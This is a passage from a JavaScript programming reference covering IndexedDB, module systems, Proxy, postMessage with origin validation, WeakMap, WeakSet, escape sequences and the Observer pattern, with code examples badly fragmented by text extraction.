\"DemoDB\"

,

2

)

;

*// Listen for success. This will be called after onupgradeneeded runs,
if it does at all*

request.

onsuccess

=

**function**

(

)

{

db

=

request.

result

;

*// We have a database!*

doThingsWithDB

(

db

)

;

}

;

*// If our database didn\'t exist before, or it was an older version
than what we requested,*

*// the \`onupgradeneeded\` event will be fired.*

*//*

*// We can use this to setup a new database and upgrade an old one with
new data stores*

request.

onupgradeneeded

=

**function**

(

event

)

{

db

=

request.

result

;

*// If the oldVersion is less than 1, then the database didn\'t exist.
Let\'s set it up*

**if**

(

event.

oldVersion

\<

1

)

{

*// We\'ll create a new \"things\" store with \`autoIncrement\`ing keys*

**var**

store

=

db.

createObjectStore

(

\"things\"

,

{

autoIncrement

:

**true**

}

)

;

}

*// In version 2 of our database, we added a new index by the name of
each thing*

**if**

(

event.

oldVersion

\<

2

)

{

*// Let\'s load the things store and create an index*

**var**

store

=

request.

transaction

.

objectStore

(

\"things\"

)

;

store.

createIndex

(

\"by_name\"

,

\"name\"

)

;

}

}

;

*// Handle any errors*

request.

onerror

=

**function**

(

)

{

console.

error

(

\"Something went wrong when we tried to request the database!\"

)

;

}

;

## Section 72.2: Adding objects

Anything that needs to happen with data in an IndexedDB database
happens in a transaction. There are a few things to note about
transactions that are mentioned in the Remarks section at the bottom
of this page.
>
We\'ll use the database we set up in **Opening a database.**
>
*// Create a new readwrite (since we want to change things)
transaction for the things store* **var** transaction =
db.transaction(\[\"things\"\], \"readwrite\");

*// Transactions use events, just like database open requests. Let\'s
listen for success*

transaction.

oncomplete

=

**function**

(

)

{

console.

log

(

\"All done!\"

)

;

}

;

*// And make sure we handle errors*

transaction.

onerror

=

**function**

(

)

{

console.

log

(

\"Something went wrong with our transaction: \"

,

transaction.

error

)

;

}

;

*// Now that our event handlers are set up, let\'s get our things store
and add some objects!*

**var**

store

=

transaction.

objectStore

(

\"things\"

)

;

*// Transactions can do a few things at a time. Let\'s start with a
simple insertion*

**var**

request

=

store.

add

(

{

*// \"things\" uses auto-incrementing keys, so we don\'t need one, but
we can set it anyway*

key

:

\"coffee_cup\"

,

name

:

\"Coffee Cup\"

,

contents

:

\[

\"coffee\"

,

\"cream\"

\]

}

)

;

*// Let\'s listen so we can see if everything went well*

request.

onsuccess

=

**function**

(

event

)

{

*// Done! Here, \`request.result\` will be the object\'s key,
\"coffee_cup\"*

}

;

*// We can also add a bunch of things from an array. We\'ll use
auto-generated keys*

**var**

thingsToAdd

=

\[

{

name

:

\"Example object\"

}

,

{

value

:

\"I don\'t have a name\"

}

\]

;

*// Let\'s use more compact code this time and ignore the results of our
insertions*

thingsToAdd.

forEach

(

e

=\>

store.

add

(

e

)

)

;

## Section 72.3: Retrieving data

Anything that needs to happen with data in an IndexedDB database
happens in a transaction. There are a few things to note about
transactions that are mentioned in the Remarks section at the bottom
of this page.
>
We\'ll use the database we set up in Opening a database.

*// Create a new transaction, we\'ll use the default \"readonly\" mode
and the things store*

**var**

transaction

=

db.

transaction

(

\[

\"things\"

\]

)

;

*// Transactions use events, just like database open requests. Let\'s
listen for success*

transaction.

oncomplete

=

**function**

(

)

{

console.

log

(

\"All done!\"

)

;

}

;

*// And make sure we handle errors*

transaction.

onerror

=

**function**

(

)

{

console.

log

(

\"Something went wrong with our transaction: \"

,

transaction.

error

)

;

}

;

*// Now that everything is set up, let\'s get our things store and load
some objects!*

**var**

store

=

transaction.

objectStore

(

\"things\"

)

;

*// We\'ll load the coffee_cup object we added in Adding objects*

**var**

request

=

store.

**get**

(

\"coffee_cup\"

)

;

*// Let\'s listen so we can see if everything went well*

request.

onsuccess

=

**function**

(

event

)

{

*// All done, let\'s log our object to the console*

console.

log

(

request.

result

)

;

}

;

*// That was pretty long for a basic retrieval. If we just want to get
just*

*// the one object and don\'t care about errors, we can shorten things a
lot*

db.

transaction

(

\"things\"

)

.

objectStore

(

\"things\"

)

.

**get**

(

\"coffee_cup\"

)

.

onsuccess

=

e

=\>

console.

log

(

e\.

target

.

result

)

;

## Section 72.4: Testing for IndexedDB availability

  
  window.indexedDB
  

  

You can test for IndexedDB support in the current environment by
checking for the presence of the property:

**if**

(

window.

indexedDB

)

{

*// IndexedDB is available*

}

# Chapter 73: Modularization Techniques

## Section 73.1: ES6 Modules

Version ≥ 6

In ECMAScript 6, when using the module syntax (import/export), each
file becomes its own module with a private namespace. Top-level
functions and variables do not pollute the global namespace. To expose
functions, classes, and variables for other modules to import, you can
use the export keyword.
>
**Note:** Although this is the official method for creating JavaScript
modules, it is not supported by any major browsers right now. However,
ES6 Modules are supported by many transpilers.

export

**function**

greet

(

name

)

{

console.

log

(

\"Hello %s!\"

,

name

)

;

}

**var**

myMethod

=

**function**

(

param

)

{

**return**

\"Here\'s what you said: \"

\+

param

;

}

;

export

{

myMethod

}

export

class

MyClass

{

test

(

)

{

}

}

**Using Modules**
>
Importing modules is as simple as specifying their path:

import

greet from

\"mymodule.js\"

;

greet

(

\"Bob\"

)

;

  
  mymodule.js
  

  

This imports only the myMethod method from our file.
>
It\'s also possible to import all methods from a module:

import

\*

as myModule from

\"mymodule.js\"

;

myModule.

greet

(

\"Alice\"

)

;

You can also import methods under a new name:

import

{

greet as A

,

myMethod as B

}

from

\"mymodule.js\"

;

More information on ES6 Modules can be found in the Modules topic.

## Section 73.2: Universal Module Definition (UMD)

The UMD (Universal Module Definition) pattern is used when our module
needs to be imported by a number of different module loaders (e.g.
AMD, CommonJS).
>
The pattern itself consists of two parts:

1.  An IIFE (Immediately-Invoked Function Expression) that checks for
    the module loader that is being implemented by the user. This will
    take two arguments; root (a **this** reference to the global scope)
    and factory (the function where we declare our module).

2.  An anonymous function that creates our module. This is passed as the
    second argument to the IIFE portion of the pattern. This function is
    passed any number of arguments to specify the dependencies of the
    module.

In the below example we check for AMD, then CommonJS. If neither of
those loaders are in use we fall back to making the module and its
dependencies available globally.

(

**function**

(

root

,

factory

)

{

**if**

(

**typeof**

define

===

\'function\'

&&

define.

amd

)

{

*// AMD. Register as an anonymous module.*

define

(

\[

\'exports\'

,

\'b\'

\]

,

factory

)

;

}

**else**

**if**

(

**typeof**

exports

===

\'object\'

&&

**typeof**

exports.

nodeName

!==

\'string\'

)

{

*// CommonJS*

factory

(

exports

,

require

(

\'b\'

)

)

;

}

**else**

{

*// Browser globals*

factory

(

(

root.

commonJsStrict

=

{

}

)

,

root.

b

)

;

}

}

(

**this**

,

**function**

(

exports

,

b

)

{

*//use b in some fashion.*

*// attach properties to the exports object to define*

*// the exported module properties.*

exports.

action

=

**function**

(

)

{

}

;

}

)

)

;

## Section 73.3: Immediately invoked function expressions (IIFE)

Immediately invoked function expressions can be used to create a
private scope while producing a public API.

**var**

Module

=

(

**function**

(

)

{

**var**

privateData

=

1

;

**return**

{

getPrivateData

:

**function**

(

)

{

**return**

privateData

;

}

}

;

}

)

(

)

;

Module.

getPrivateData

(

)

;

*// 1*

Module.

privateData

;

*// undefined*

See the Module Pattern for more details.

## Section 73.4: Asynchronous Module Definition (AMD)

AMD is a module definition system that attempts to address some of the
common issues with other systems like CommonJS and anonymous closures.
>
AMD addresses these issues by:
>
Registering the factory function by calling define(), instead of
immediately executing it
>
Passing dependencies as an array of module names, which are then
loaded, instead of using globals
>
Only executing the factory function once all the dependencies have
been loaded and executed
>
Passing the dependent modules as arguments to the factory function
>
The key thing here is that a module can have a dependency and not hold
everything up while waiting for it to load, without the developer
having to write complicated code.
>
Here\'s an example of AMD:

*// Define a module \"myModule\" with two dependencies, jQuery and
Lodash*

define

(

\"myModule\"

,

\[

\"jquery\"

,

\"lodash\"

\]

,

**function**

(

\$

,

\_

)

{

*// This publicly accessible object is our module*

*// Here we use an object, but it can be of any type*

**var**

myModule

=

{

}

;

**var**

privateVar

=

\"Nothing outside of this module can see me\"

;

**var**

privateFn

=

**function**

(

param

)

{

**return**

\"Here\'s what you said: \"

\+

param

;

}

;

myModule.

version

=

1

;

myModule.

moduleMethod

=

**function**

(

)

{

*// We can still access global variables from here, but it\'s better*

*// if we use the passed ones*

**return**

privateFn

(

windowTitle

)

;

}

;

**return**

myModule

;

}

)

;

Modules can also skip the name and be anonymous. When that\'s done,
they\'re usually loaded by file name.

define

(

\[

\"jquery\"

,

\"lodash\"

\]

,

**function**

(

\$

,

\_

)

{

*/\* factory \*/*

}

)

;

They can also skip dependencies:

define

(

**function**

(

)

{

*/\* factory \*/*

}

)

;

Some AMD loaders support defining modules as plain objects:

define

(

\"myModule\"

,

{

version

:

1

,

value

:

\"sample string\"

}

)

;

## Section 73.5: CommonJS - Node.js

CommonJS is a popular modularization pattern that\'s used in Node.js.

  
  require
  

  

The CommonJS system is centered around a () function that loads other
modules and an exports property that lets modules export publicly
accessible methods.
>
Here\'s an example of CommonJS, we\'ll load Lodash and Node.js\' fs
module:

*// Load fs and lodash, we can use them anywhere inside the module*

**var**

fs

=

require

(

\"fs\"

)

,

\_

=

require

(

\"lodash\"

)

;

**var**

myPrivateFn

=

**function**

(

param

)

{

**return**

\"Here\'s what you said: \"

\+

param

;

}

;

*// Here we export a public \`myMethod\` that other modules can use*

exports.

myMethod

=

**function**

(

param

)

{

**return**

myPrivateFn

(

param

)

;

}

;

  
  module.exports
  

  

You can also export a function as the entire module using :

module.

exports

=

**function**

(

)

{

**return**

\"Hello!\"

;

}

;

# Chapter 74: Proxy

**Parameter Details**

target The target object, actions on this object (getting, setting,
etc\...) will be routed through the handler handler An object that can
define \"traps\" for intercepting actions on the target object
(getting, setting, etc\...)
>
A Proxy in JavaScript can be used to modify fundamental operations on
objects. Proxies were introduced in ES6. A
>
Proxy on an object is itself an object, that has *traps*. Traps may be
triggered when operations are performed on the Proxy. This includes
property lookup, function calling, modifying properties, adding
properties, et cetera. When no applicable trap is defined, the
operation is performed on the proxied object as if there was no Proxy.

## Section 74.1: Proxying property lookup

To influence property lookup, the **get** handler must be used.
>
In this example, we modify property lookup so that not only the value,
but also the type of that value is returned. We use
[Reflect](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Reflect)
to ease this.

**let**

handler

=

{

**get**

(

target

,

property

)

{

**if**

(

!

Reflect.

has

(

target

,

property

)

)

{

**return**

{

value

:

**undefined**

,

type

:

\'undefined\'

}

;

}

**let**

value

=

Reflect.

**get**

(

target

,

property

)

;

**return**

{

value

:

value

,

type

:

**typeof**

value

}

;

}

}

;

**let**

proxied

=

**new**

Proxy

(

{

foo

:

\'bar\'

}

,

handler

)

;

console.

log

(

proxied.

foo

)

;

*// logs \`Object {value: \"bar\", type: \"string\"}\`*

## Section 74.2: Very simple proxy (using the set trap)

This proxy simply appends the string \" went through proxy\" to every
string property set on the target object.

**let**

object

=

{

}

;

**let**

handler

=

{

**set**

(

target

,

prop

,

value

)

{

*// Note that ES6 object syntax is used*

**if**

(

\'string\'

===

**typeof**

value

)

{

target

\[

prop

\]

=

value

\+

\" went through proxy\"

;

}

}

}

;

**let**

proxied

=

**new**

Proxy

(

object

,

handler

)

;

proxied.

example

=

\"ExampleValue\"

;

console.

log

(

object

)

;

*// logs: { example: \"ExampleValue went through proxy\" }*

*// you could also access the object via proxied.target*

# Chapter 75: .postMessage() and MessageEvent

**Parameters** **message** **targetOrigin**

transfer optional

## Section 75.1: Getting Started

**What is
[.postMessage()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage),
when and why do we use it**

  
  [**postMessage**](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
  

  

**[.()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
method is a way to safely allow communication between cross-origin
scripts.**

  
  window.open               ()). With                                                                  [postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
                            [.](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)   
    -

  

Normally, two different pages, can only directly communicate with each
other using JavaScript when they are under the same origin, even if
one of them is embedded into another (e.g. iframes) or one is opened
from inside the other (e.g.
[()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage),
you can work around this restriction while still staying safe.

  
  [**postMessage**](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
  

  

**You can only use
[.()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
when you have access to both pages\' JavaScript code.** Since the
receiver needs to validate the sender and process the message
accordingly, you can only use this method to communicate between two
scripts you have access to.

  
  http             :    *//sender.com*
  -  

  

  -
  http            :   *//receiver.com*
    

  -

We will build an example to send messages to a child window and have
the messages be displayed on the child window. The parent/sender page
will be assumed to be and child/receiver page will be assumed to be
for the example.
>
**Sending messages**

  
  [window.open](https://developer.mozilla.org/en-US/docs/Web/API/Window/open)
  

  

In order to send messages to another window, you need to have a
reference to its
[window](https://developer.mozilla.org/en-US/docs/Web/API/Window)
object.
[()](https://developer.mozilla.org/en-US/docs/Web/API/Window/open)
returns the reference object of the newly opened window. For other
methods to obtain a reference to a window object, see the explanation
under otherWindow parameter
[here](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#Syntax).

**var**

childWindow

=

window.

open

(

\"http://receiver.com\"

,

\"\_blank\"

)

;

Add a textarea and a send button that will be used to send messages to
child window.

**\<**

**textarea**

id

=

\"text\"

**\>**

**\<**

**/textarea**

**\>**

**\<**

**button**

id

=

\"btn\"

**\>**

Send Message

**\<**

**/button**

**\>**

  
  [postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)   [(](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)   [message](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)   [,](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)   [targetOrigin](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
  -    

  

Send the text of textarea using
[.)](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
when the button is clicked.

**var**

btn

=

document.

getElementById

(

\"btn\"

)

,

text

=

document.

getElementById

(

\"text\"

)

;

btn.

addEventListener

(

\"click\"

,

**function**

(

)

{

sendMessage

(

text.

value

)

;

text.

value

=

\"\"

;

}

)

;

**function**

sendMessage

(

message

)

{

**if**

(

!

message

\|\|

!

message.

length

)

**return**

;

childWindow.

postMessage

(

JSON.

stringify

(

{

message

:

message

,

time

:

**new**

Date

(

)

}

)

,

\'http://receiver.com\'

)

;

}

  
  [JSON.stringify](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/JSON/stringify)   [()](https://developer.mozilla.org/en/docs/Web/JavaScript/Reference/Global_Objects/JSON/stringify)   [JSON.parse](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON/parse)
                                                                                                                   and                                                                                                  
    -

  

  
  [Transfarable                                                            can be given as the third optional parameter of the                        [postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)   [(](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)   [message](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
  Object](https://developer.mozilla.org/en-US/docs/Web/API/Transferable)   [.](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)                                                                                                                                                                   
  -  -  

  

In order send and receive JSON objects instead of a simple string,
[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON/parse)
methods can be used. A
[,](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)

  
  [targetOrigin](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)   [,](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)   [transfer](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
    -

  

[)](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
method, but browser support is still lacking even in modern browsers.

  -
  http            :   *//receiver.com*
    

  -

For this example, since our receiver is assumed to be page, we enter
its url as the targetOrigin. The value of this parameter should match
the origin of the childWindow object for the message to be send. It is
possible to use \* as a wildcard but is **highly recommended** to
avoid using the wildcard and always set this parameter to receiver\'s
specific origin **for security reasons**.
>
**Receiving, Validating and Processing Messages**

  -
  http            :   *//receiver.com*
    

  -

The code under this part should be put in the receiver page, which is
for our example.
>
In order to receive messages, the [message
event](https://developer.mozilla.org/en-US/docs/Web/Events/message_webmessaging)
of the window should be listened.

window.

addEventListener

(

\"message\"

,

receiveMessage

)

;

When a message is received there are a couple of **steps that should
be followed to assure security as much as possible**.
>
Validate the sender
>
Validate the message
>
Process the message
>
The sender should always be validated to make sure the message is
received from a trusted sender. After that, the message itself should
be validated to make sure nothing malicious is received. After these
two validations, the message can be processed.

**function**

receiveMessage

(

ev

)

{

*//Check event.origin to see if it is a trusted sender.*

*//If you have a reference to the sender, validate event.source*

*//We only want to receive messages from http://sender.com, our trusted
sender page.*

**if**

(

ev.

origin

!==

\"http://sender.com\"

\|\|

ev.

source

!==

window.

opener

)

**return**

;

*//Validate the message*

*//We want to make sure it\'s a valid json object and it does not
contain anything malicious*

**var**

data

;

**try**

{

data

=

JSON.

parse

(

ev.

data

)

;

*//data.message = cleanseText(data.message)*

}

**catch**

(

ex

)

{

**return**

;

}

*//Do whatever you want with the received message*

*//We want to append the message into our #console div*

**var**

p

=

document.

createElement

(

\"p\"

)

;

p\.

innerText

=

(

**new**

Date

(

data.

time

)

)

.

toLocaleTimeString

(

)

\+

\" \| \"

\+

data.

message

;

document.

getElementById

(

\"console\"

)

.

appendChild

(

p

)

;

}

[Click here for a JS Fiddle showcasing its
usage.](https://jsfiddle.net/ozzan/6gjstodk/)

# Chapter 76: WeakMap

## Section 76.1: Creating a WeakMap object

WeakMap object allows you to store key/value pairs. The difference
from Map is that keys must be objects and are weakly referenced. This
means that if there aren\'t any other strong references to the key,
the element in WeakMap can be removed by garbage collector.
>
WeakMap constructor has an optional parameter, which can be any
iterable object (for example Array) containing key/value pairs as
two-element arrays.

**const**

o1

=

{

a

:

1

,

b

:

2

}

,

o2

=

{

}

;

**const**

weakmap

=

**new**

WeakMap

(

\[

\[

o1

,

**true**

\]

,

\[

o2

,

o1

\]

\]

)

;

## Section 76.2: Getting a value associated to the key

  
  .**get**()
  

  

To get a value associated to the key, use the method. If there\'s no
value associated to the key, it returns

**undefined**

.

**const**

obj1

=

{

}

,

obj2

=

{

}

;

**const**

weakmap

=

**new**

WeakMap

(

\[

\[

obj1

,

7

\]

\]

)

;

console.

log

(

weakmap.

**get**

(

obj1

)

)

;

*// 7*

console.

log

(

weakmap.

**get**

(

obj2

)

)

;

*// undefined*

## Section 76.3: Assigning a value to the key

  
  .**set**()   method. It returns the WeakMap object, so you can chain   .**set**()
   - 

  

To assign a value to the key, use the calls.

**const**

obj1

=

{

}

,

obj2

=

{

}

;

**const**

weakmap

=

**new**

WeakMap

(

)

;

weakmap.

**set**

(

obj1

,

1

)

.

**set**

(

obj2

,

2

)

;

console.

log

(

weakmap.

**get**

(

obj1

)

)

;

*// 1*

console.

log

(

weakmap.

**get**

(

obj2

)

)

;

*// 2*

## Section 76.4: Checking if an element with the key exists

  
  .has()
  

  

To check if an element with a specified key exits in a WeakMap, use
the method. It returns **true** if it exits, and otherwise **false**.

**const**

obj1

=

{

}

,

obj2

=

{

}

;

**const**

weakmap

=

**new**

WeakMap

(

\[

\[

obj1

,

7

\]

\]

)

;

console.

log

(

weakmap.

has

(

obj1

)

)

;

*// true*

console.

log

(

weakmap.

has

(

obj2

)

)

;

*// false*

## Section 76.5: Removing an element with the key

  
  **delete**
  

  

To remove an element with a specified key, use the .() method. It
returns **true** if the element existed and has been removed,
otherwise **false**.

**const**

obj1

=

{

}

,

obj2

=

{

}

;

**const**

weakmap

=

**new**

WeakMap

(

\[

\[

obj1

,

7

\]

\]

)

;

console.

log

(

weakmap.

**delete**

(

obj1

)

)

;

*// true*

console.

log

(

weakmap.

has

(

obj1

)

)

;

*// false*

console.

log

(

weakmap.

**delete**

(

obj2

)

)

;

*// false*

## Section 76.6: Weak reference demo

JavaScript uses [reference
counting](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Memory_Management)
technique to detect unused objects. When reference count to an object
is zero, that object will be released by the garbage collector.
Weakmap uses weak reference that does not contribute to reference
count of an object, therefore it is very useful to solve memory [leak
problems](http://stackoverflow.com/questions/29413222/what-are-the-actual-uses-of-es6-weakmap).
>
Here is a demo of weakmap. I use a very large object as value to show
that weak reference does not contribute to reference count.

*// manually trigger garbage collection to make sure that we are in good
status.*

\>

global.

gc

(

)

;

**undefined**

*// check initial memory use*

，

*heapUsed is 4M or so*

\>

process.

memoryUsage

(

)

;

{

rss

:

21106688

,

heapTotal

:

7376896

,

heapUsed

:

4153936

,

external

:

9059

}

\>

**let**

wm

=

**new**

WeakMap

(

)

;

**undefined**

\>

**const**

b

=

**new**

Object

(

)

;

**undefined**

\>

global.

gc

(

)

;

**undefined**

*// heapUsed is still 4M or so*

\>

process.

memoryUsage

(

)

;

{

rss

:

20537344

,

heapTotal

:

9474048

,

heapUsed

:

3967272

,

external

:

8993

}

*// add key-value tuple into WeakMap*

，

*// key is b*

，

*value is 5\*1024\*1024 array*

\>

wm.

**set**

(

b

,

**new**

Array

(

5

\*

1024

\*

1024

)

)

;

WeakMap

{

}

*// manually garbage collection*

\>

global.

gc

(

)

;

**undefined**

*// heapUsed is still 45M*

\>

process.

memoryUsage

(

)

;

{

rss

:

62652416

,

heapTotal

:

51437568

,

heapUsed

:

45911664

,

external

:

8951

}

*// b reference to null*

\>

b

=

**null**

;

**null**

*// garbage collection*

\>

global.

gc

(

)

;

**undefined**

*// after remove b reference to object*

，

*heapUsed is 4M again*

*// it means the big array in WeakMap is released*

*// it also means weekmap does not contribute to big array\'s reference
count, only b does.*

\>

process.

memoryUsage

(

)

;

{

rss

:

20639744

,

heapTotal

:

8425472

,

heapUsed

:

3979792

,

external

:

8956

}

# Chapter 77: WeakSet

## Section 77.1: Creating a WeakSet object

The WeakSet object is used for storing weakly held objects in a
collection. The difference from Set is that you can\'t store primitive
values, like numbers or string. Also, references to the objects in the
collection are held weakly, which means that if there is no other
reference to an object stored in a WeakSet, it can be garbage
collected.
>
The WeakSet constructor has an optional parameter, which can be any
iterable object (for example an array). All of its elements will be
added to the created WeakSet.

**const**

obj1

=

{

}

,

obj2

=

{

}

;

**const**

weakset

=

**new**

WeakSet

(

\[

obj1

,

obj2

\]

)

;

## Section 77.2: Adding a value

  
  .add()
  

  

To add a value to a WeakSet, use the method. This method is chainable.

**const**

obj1

=

{

}

,

obj2

=

{

}

;

**const**

weakset

=

**new**

WeakSet

(

)

;

weakset.

add

(

obj1

)

.

add

(

obj2

)

;

## Section 77.3: Checking if a value exists

  
  .has()
  

  

To check if a value exits in a WeakSet, use the method.

**const**

obj1

=

{

}

,

obj2

=

{

}

;

**const**

weakset

=

**new**

WeakSet

(

\[

obj1

\]

)

;

console.

log

(

weakset.

has

(

obj1

)

)

;

*// true*

console.

log

(

weakset.

has

(

obj2

)

)

;

*// false*

## Section 77.4: Removing a value

  
  .**delete**()
  

  

To remove a value from a WeakSet, use the method. This method returns
**true** if the value existed and has been removed, otherwise
**false**.

**const**

obj1

=

{

}

,

obj2

=

{

}

;

**const**

weakset

=

**new**

WeakSet

(

\[

obj1

\]

)

;

console.

log

(

weakset.

**delete**

(

obj1

)

)

;

*// true*

console.

log

(

weakset.

**delete**

(

obj2

)

)

;

*// false*

# Chapter 78: Escape Sequences

## Section 78.1: Entering special characters in strings and regular expressions

Most printable characters can be included in string or regular
expression literals just as they are, e.g.

**var**

str

=

\"

ポ

ケ

モ

ン

\"

;

*// a valid string*

**var**

regExp

=

*/\[*

Α

*-*

Ω

α

*-*

ω

*\]*

*/*

;

*// matches any Greek letter without diacritics*

In order to add arbitrary characters to a string or regular
expression, including non-printable ones, one has to use *escape
sequences*. Escape sequences consist of a backslash (\"\\\\\")
followed by one or more other characters. To write an escape sequence
for a particular character, one typically (but not always) needs to
know its hexadecimal character code.
>
JavaScript provides a number of different ways to specify escape
sequences, as documented in the examples in this topic. For instance,
the following escape sequences all denote the same character: the
*line feed* (Unix newline character), with character code U+000A.

  
  \\\\u
  

  

\\\\n
>
\\\\x0a
>
\\\\u000a
>
{a} new in ES6, only in strings
>
\\\\012 forbidden in string literals in strict mode and in template
strings \\\\cj only in regular expressions

## Section 78.2: Escape sequence types

**Single character escape sequences**
>
Some escape sequences consist of a backslash followed by a single
character.

  
  alert             (   \"Hello**\\n**World\"
    

  

For example, in );, the escape sequence \\n is used to introduce a
newline in the string parameter, so that the words \"Hello\" and
\"World\" are displayed in consecutive lines.

  -
  **Escape sequence Character**                                  **Unicode**
   -
  \\b (only in strings, not in regular expressions) backspace    U+0008

  \\t horizontal tab                                             U+0009

  \\n line feed                                                  U+000A

  \\v vertical tab                                               U+000B

  \\f form feed                                                  U+000C
  -

\\r carriage return U+000D

Additionally, the sequence \\0, when not followed by a digit between 0
and 7, can be used to escape the null character (U+0000).
>
The sequences \\\\, \\\' and \\\" are used to escape the character
that follows the backslash. While similar to nonescape sequences,
where the leading backslash is simply ignored (i.e. \\? for ?), they
are explicitly treated as single character escape sequences inside
strings as per the specification.
>
**Hexadecimal escape sequences**
>
Characters with codes between 0 and 255 can be represented with an
escape sequence where \\x is followed by the 2-digit hexadecimal
character code. For example, the non-breaking space character has code
160 or A0 in base 16, and so it can be written as \\xa0. **var** str =
\"ONE**\\x**a0LINE\"; *// ONE and LINE with a non-breaking space
between them*
>
For hex digits above 9, the letters a to f are used, in lowercase or
uppercase without distinction.
>
**var** regExp1 = */\[\\x00-xff\]/*; *// matches any character between
U+0000 and U+00FF* **var** regExp2 = */\[\\x00-xFF\]/*; *// same as
above*
>
**4-digit Unicode escape sequences**
>
Characters with codes between 0 and 65535 (216 - 1) can be represented
with an escape sequence where \\u is followed by the 4-digit
hexadecimal character code.
>
For example, the Unicode standard defines the right arrow character
(\"?\") with the number 8594, or 2192 in hexadecimal format. So an
escape sequence for it would be \\u2192.
>
This produces the string \"A ? B\":

**var**

str

=

\"A

**\\u**

2192

B\"

;

For hex digits above 9, the letters a to f are used, in lowercase or
uppercase without distinction. Hexadecimal codes shorter than 4 digits
must be left-padded with zeros: \\u007A for the small letter \"z\".
>
**Curly bracket Unicode escape sequences**

Version ≥ 6

ES6 extends Unicode support to the full code range from 0 to 0x10FFFF.
In order to escape characters with code greater than 216 - 1, a new
syntax for escape sequences was introduced:

\\u

{

???

}

Where the code in curly braces is hexadecimal representation of the
code point value, e.g.

alert

(

\"Look!

**\\u**

{1

f440}\"

)

;

*// Look! ????*

In the example above, the code 1f440 is the hexadecimal representation
of the character code of the Unicode Character *Eyes*.
>
Note that the code in curly braces may contain any number of hex
digits, as long the value does not exceed 0x10FFFF. For hex digits
above 9, the letters a to f are used, in lowercase or uppercase
without distinction.
>
Unicode escape sequences with curly braces only work inside strings,
not inside regular expressions!
>
**Octal escape sequences**
>
Octal escape sequences are deprecated as of ES5, but they are still
supported inside regular expressions and in non-strict mode also
inside non-template strings. An octal escape sequence consists of one,
two or three octal digits, with value between 0 and 3778 = 255.

  
  105
  

  

For example, the capital letter \"E\" has character code 69, or 105 in
base 8. So it can be represented with the escape sequence \\:

/

\\105scape

/

.

test

(

\"Fun with Escape Sequences\"

)

;

*// true*

In strict mode, octal escape sequences are not allowed inside strings
and will produce a syntax error. It is worth to note that \\0, unlike
\\00 or \\000, is *not* considered an octal escape sequence, and is
thus still allowed inside strings (even template strings) in strict
mode.
>
**Control escape sequences**
>
Some escape sequences are only recognized inside regular expression
literals (not in strings). These can be used to escape characters with
codes between 1 and 26 (U+0001U+001A). They consist of a single
letter AZ (case makes no difference) preceded by \\c. The alphabetic
position of the letter after \\c determines the character code.
>
For example, in the regular expression

\`

/

\\cG

/

\`

The letter \"G\" (the 7th letter in the alphabet) refers to the
character U+0007, and thus

\`

/

\\cG\`

/

.

test

(

String

.

fromCharCode

(

7

)

)

;

*// true*

# Chapter 79: Behavioral Design Patterns

## Section 79.1: Observer pattern

The [Observer](https://en.wikipedia.org/wiki/Observer_pattern) pattern
is used for event handling and delegation. A *subject* maintains a
collection of *observers.* The subject then notifies these observers
whenever an event occurs. If you\'ve ever used
[addEventListener](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener)
then you\'ve utilized the Observer pattern.

**function**

Subject

(

)

{

**this**

.

observers

=

\[

\]

;

*// Observers listening to the subject*

**this**

.

registerObserver

=

**function**

(

observer

)

{

*// Add an observer if it isn\'t already being tracked*

**if**

(

**this**

.

observers

.

indexOf

(

observer

)

===

\-

1

)

{

**this**

.

observers

.

push

(

observer

)

;

}

}

;

**this**

.

unregisterObserver

=

**function**

(

observer

)

{

*// Removes a previously registered observer*

**var**

index

=

**this**

.

observers

.

indexOf

(

observer

)

;

**if**

(

index

\>

\-

1

)

{

**this**

.

observers

.

splice

(

index

,

1

)

;

}

}

;

**this**

.

notifyObservers

=

**function**

(

message

)

{

*// Send a message to all observers*

**this**

.

observers

.

forEach

(

**function**

(

observer

)

{

observer.

notify

(

message

)

;

}

)

;

}

;

}

**function**

Observer

(

)

{

**this**

.

notify

=

**function**

(

message

)

{

*// Every observer must implement this function*

}

;

}

**Example usage:**

**function**

Employee

(

name

)

{

**this**

.

name

=

name

;

*// Implement \`notify\` so the subject can pass us messages*

**this**

.

notify

=

**function**

(

meetingTime

)

{

console.

log

(

**this**

.

name

\+

\': There is a meeting at \'

\+

meetingTime

)

;

}

;

}

**var**

bob

=

**new**

Employee

(

\'Bob\'

)

;

**var**

jane

=

**new**

Employee

(

\'Jane\'

)

;

**var**

meetingAlerts

=

**new**

Subject

(

)

;

meetingAlerts.

registerObserver

(

bob

)

;

meetingAlerts.

registerObserver

(

jane

)

;

meetingAlerts.

notifyObservers

(

\'4pm\'

)

;

*// Output:*

*// Bob: There is a meeting at 4pm*

*// Jane: There is a meeting at 4pm*

## Section 79.2: Mediator Pattern

